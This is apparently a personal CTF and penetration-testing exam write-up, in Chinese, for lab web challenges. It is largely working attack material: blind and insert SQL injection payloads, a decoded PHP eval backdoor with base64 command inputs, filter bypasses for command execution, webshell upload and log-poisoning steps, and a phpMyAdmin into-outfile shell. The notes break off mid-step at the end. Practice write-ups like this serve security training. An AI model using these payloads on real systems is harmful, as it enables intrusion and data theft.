 [嘤嘤嘤]timesql #SQL注入漏洞 时间/盲注
题名写了timesql但是测试直接异或盲注他回显不一致，就用异或盲注，服务器太烂了，用时间盲注时间一大一小看不清结果。
全程用bp做
爆数据库名 为hazel
```
username=admin'%20anandd%20subsubstrstr(database()%2c§1§%2c1)%3d'§2§'%20%23&password=114514
```
![[Pasted image 20240327161324.png]]
爆表名长度 为5
```
username=admin'%20anandd%20length((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase()))%20%3d%20§1§%20%23
```
![[Pasted image 20240328190530.png]]
爆表名 为 users
```
username=admin'%20anandd%20subsubstrstr((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§a§'%20%23
```
![[Pasted image 20240328191209.png]]
爆字段名 为 id,username,password
```
username=admin'%20anandd%20subsubstrstr((selselectect%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name%3d'users'%20anandd%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§i§'%20%23
```
![[Pasted image 20240328193336.png]]
爆字段(payload列表注意加上flag所需的字符)：
```
admin'%20anandd%20subsubstrstr((selselectect%20group_concat(id%2c%22%3a%22%2cusername%2c%22%3a%22%2cpasswoorrd%2c%22%3a%22)%20frfromom%20hazel.users)%2c§1§%2c1)%20%3d%20'§i§'%20%23
```

| id  | username | password                                    |
| --- | -------- | ------------------------------------------- |
| 0   | admin    | admin666666                                 |
| 1   | hazel    | hazel{d3f3bac6-3fe8-4e5e-8680-40a5b0003799} |

[嘤嘤嘤]insertsql #SQL注入漏洞 
insert注入，查看页面，有上传文章的功能
![[Pasted image 20240329124443.png]]
尝试在标题注入，其显示上传失败，并快速重定向至主页面，但是显示了一瞬间的sql语句，打开BP的intercept,显示出了其使用的sql语句： ^d26139
```
insert into article(title,author,description,content,dateline) values('114514' and 1=2#','114514','114514','114514',1711687035)
```
可以看到除了标题还有4个字段，那就在标题构造注入：
```
114514',database(),user(),'114514',1919810)#
```
去管理文章的页面点击修改我们刚发布的文章，可以看到其回显了数据库名以及用户名：
![[Pasted image 20240329124936.png]]
爆表名 为article,hazel
```
10086',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'10086','10086','1919810')#
```

^1e5e69

![[Pasted image 20240329125252.png]]
爆字段名 为 id,flag_is_here
```
10086',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="hazel"),'10086','10086','1919810')#
```
![[Pasted image 20240329125514.png]]
dump
```
10086',(select flag_is_here from hazel.hazel where id=2),'10086','10086','1919810')#
```

| id  | flag_is_here                                |
| --- | ------------------------------------------- |
| 1   | shuaige                                     |
| 2   | hazel{863184db-8501-49b4-a8c9-96bc10101c72} |

[嘤嘤嘤]成绩单 #SQL注入漏洞 
页面只有一个查询框，查1出成绩，查异常值不出，尝试布尔盲注猜解闭合方式为：单引号闭合
`1' and 1=2 #`
爆数据库名长度 为 5
```
id=1'+and+length(database())%3d§1§%23
```
![[Pasted image 20240329131949.png]]
爆数据库名 为 hazel
```
id=1'+and+substr(database(),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329132535.png]]
爆表名总长度 为 7
```
id=1'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()))%3d§1§%23
```
![[Pasted image 20240329132859.png]]
爆表名 为 fl4g,sc
```
id=1'+and+substr((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329133352.png]]
爆字段长度 为 10
```
id=1'+and+length((select+group_concat(column_name)+from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d'fl4g'))%3d§1§%23
```
![[Pasted image 20240329135041.png]]
dump长度 为42
```
id=1'+and+length((select+*+from+hazel.fl4g))%3d§1§%23
```
dump
```
id=1'+and+substr((select+*+from+hazel.fl4g),§1§,1)%3d'§1§'%23
```
```
hazel{8c4c152d-1aa9-4991-8aac-951ca6e3efa0}
```
[嘤嘤嘤]P1_1
base64加密注入，爆字段数找回显点（让他的不成立）不要用and，页面也不会回显错误，错误就不显示结果
[嘤嘤嘤]P1_2
[嘤嘤嘤]P1_3
```
<?php

@$a = $_POST['Hello'];

if(isset($a)){

@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));

}

?>

Hello

<br>

閫忚繃鐜拌薄鐪嬫湰璐紝涓栫晫寰堢畝鍗曪紒

W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=

[@eval(base64_decode($_POST[z0]));]

z0=system('ls'); --> z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==
```

^bf5f69

[嘤嘤嘤]P1_4
命令执行，
过滤了cat head tail cp mv vi vim
使用grep '\*' ../flag拿flag
[嘤嘤嘤]P1_5
直接禁用JS防止其生成随机数，登录
这题key错的
[嘤嘤嘤]P2_1
sql注入
过滤：
`空格 # union`
绕过：
`/**/ %23 ununionion`
不过只是让读取文件，直接loadfile
[嘤嘤嘤]P2_2
文件上传
直接传带图片头的图片拦截加马改phtml
[嘤嘤嘤]P2_3
文件包含
使用php://filter/read=convert.base64-encode/resource=..key.php
拿到flag
[嘤嘤嘤]P2_4
命令执行
过滤了ls cat，直接定义变量绕过
[嘤嘤嘤]P2_5
日志跳
[嘤嘤嘤]P3_1
二次注入
注册admin'#123，重置密码，改的是admin密码。
[嘤嘤嘤]P3_2
文件上传
很简单只做了文件头过滤，没过滤php，所以不要一上来试phtml，万一php就行呢
[嘤嘤嘤]P3_3
和[[EXAM特供WP#^bf5f69]]P1_3一样的
[嘤嘤嘤]P3_4
代审&命令执行
cmd参数长度小于30执行cmd但不回显。
使用反引号执行命令将其重定向至文件
有admin文件夹及其下的backdoor.php
构造命令超30，使用通配符减小长度。
```
GET /start/vul.php?cmd=echo+"`cat+../a*/*.php`">1.txt
```
[嘤嘤嘤]P3_5
命令执行
过滤了; ls php使用&& 变量 通配符绕过。
[嘤嘤嘤]P4_1
有文章上传功能，是insert注入和[[EXAM特供WP#^d26139]]一样
```
insert into article(title,author,description,content,dateline) values('1'','13123','3131','313',1713177034)
```
[嘤嘤嘤]P4_2
文件上传
直接传图片马
[嘤嘤嘤]P4_3
文件包含，但是没key
[嘤嘤嘤]P4_4
命令执行
```
<?php
error_reporting(0);
include "key4.php";
$a=$_GET["a"];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
?>
```
构造
`");system('ls');//`
闭合strlower,注释后面的
[嘤嘤嘤]P4_5
改cookie，base64加密的名字和直接写cookie里的isadmin
[嘤嘤嘤]P5_1
无
[嘤嘤嘤]P5_2
文件包含
获取日志，useragent传马
[嘤嘤嘤]P5_3
命令执行
过滤了 ；ls cat
使用&& 变量过
[嘤嘤嘤]P5_4
文件上传
直接传图片马
[嘤嘤嘤]P5_5
同上
[嘤嘤嘤]P6_1
sql注入
`http://hazelshishuaige.club:9111/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d67' union select 1,(select group_concat(haha) from hazel.IS_KEY),3,4,5,6 and '1'='1`
过滤了注释符，爆列数得用union select，order by 无回显
[嘤嘤嘤]P6_2
文件上传
过滤了php,MIME头，敏感函数，evalassert等，以及文件头验证
直接传马，成功，不知道为什么php过滤没起作用
[嘤嘤嘤]P6_3
固定后缀00截断超长get都不起作用
直接内网机器挂http，用http协议拿马txt
[嘤嘤嘤]P6_4
挂错了，反序列挂的命令
[嘤嘤嘤]P6_5
失效访问控制
cookie改名字，isadmin
加XFF头本地访问。
[嘤嘤嘤]pte1_055
暴力破解带验证码直接关闭JS拦截此次正确的验证码重复请求
密码123qwe，flag在F1a9.php但是找不到
[嘤嘤嘤]pte1_051
sql注入
过滤了# ；“ -- or
`admin' Or 1=1 Or '1'='1`
拿到f1a9.php
[嘤嘤嘤]pte1_045
日志题，跳
[嘤嘤嘤]pte1_041
sql注入
闭合注释显示正常而and 1=1显示不正常的直接不要and
flag-{bmhbb1bbe71-f818-4743-a418-7a7854a4e42f}
flag错的
[嘤嘤嘤]pte1_025
日志题，跳
[嘤嘤嘤]pte1_fuzz
暴力破解+命令执行
禁用JS破解，输入base64命令
/tmp下没有flag
[嘤嘤嘤]pte1_024
命令执行
过滤了cat head tail cp mv
使用vi vim 或者tee或者变量都行
key错的
[嘤嘤嘤]pte1_022
文件上传，找专题练
[嘤嘤嘤]pte1_021
sql注入
数字型
过滤空格 union and 单引号
正常流程过
[嘤嘤嘤]pte1_002
文件上传，过
[嘤嘤嘤]pte1_033
用php://filter/convert.base64-encode/resource=
[嘤嘤嘤]pte3_00-01
sql注入
过滤空格 Union \#
[嘤嘤嘤]cms-sqlgun
sqlmap梭id不行
梭搜索功能成功
拿到admin/admin凭证
[嘤嘤嘤]pte5_6
```python
import hashlib

  

fdict = []

filename = input('filename:')

for i in range(1,100000):

    o=hashlib.md5()

    o.update((filename+str(i)).encode('utf-8'))

    fdict.append(o.hexdigest()+'.php\n')

with open('filedict.txt','x') as f:

    f.writelines(fdict)
```
上传114514.php 马
文件名形如58612212ea92229dfb02fb03026949d0.php
找到200请求即可
[嘤嘤嘤]pte_综合题1
`http://hazelshishuaige.club:26080/`
`113.120.11.226:26080`
`113.120.11.226:26389`
进入网站扫描目录phpadmin
`show variables like %secure_file_priv%`
确定上传文件权限
弱口令登入，执行into outfile写马
确定绝对路径：
``